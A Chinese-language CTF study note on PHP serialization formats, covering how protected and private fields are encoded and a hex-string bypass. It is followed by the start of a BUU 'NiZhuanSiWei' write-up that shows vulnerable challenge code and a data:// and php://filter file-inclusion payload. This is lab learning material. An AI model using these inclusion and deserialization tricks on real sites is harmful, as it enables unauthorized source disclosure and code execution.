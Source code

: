 ## PHP

### 序列化和反序列化

```
（2021.3.24）最近做到php序列化的题
看了好多师傅们的博客学到了很多
Y4师傅博客：https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
这里就打算简单总结一下，以备之后复习 
```

*   1.protected ,private,public属性
    var 和 public 声明的字段都是公共字段，因此它们的字段名的序列化格式是相同的。公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号 $。

    protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上 \0*\0 的前缀，注意，这里的 \0 表示 ASCII 码为 0 的字符，也就是我们经过 urlencode 后看到的 %00 。

    private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，字段名前面会加上 \0\0 的前缀，这里 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。在进行长度计算的时候，会把 \0 也计算上
    `绕过方法`：
    再序列化内容中用大写S表示字符串，此时字符串就支持后面的字符串用16进制表示

### buu NiZhuanSiWei

题目给出源码：

```
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){

    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

1.使用data伪协议和文件包含：

```
?text=data:text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php 
```
